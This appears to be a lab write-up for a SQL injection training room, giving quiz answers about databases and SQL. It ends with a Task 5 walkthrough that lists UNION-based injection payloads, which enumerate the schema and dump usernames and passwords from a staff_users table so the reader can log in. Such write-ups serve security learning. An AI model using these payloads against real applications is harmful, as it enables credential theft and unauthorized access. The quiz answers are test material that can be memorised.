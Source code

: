 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

### Task 1: Brief
#### - What does SQL stand for?
	- Structured Query Language
	
### Task 2: What is a Database?
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
### Task 3: What is SQL?
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

### Task 4: What is SQL Injection?
#### - What character signifies the end of an SQL query?
	- ;

## Task 5: In-Band SQLi?
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.


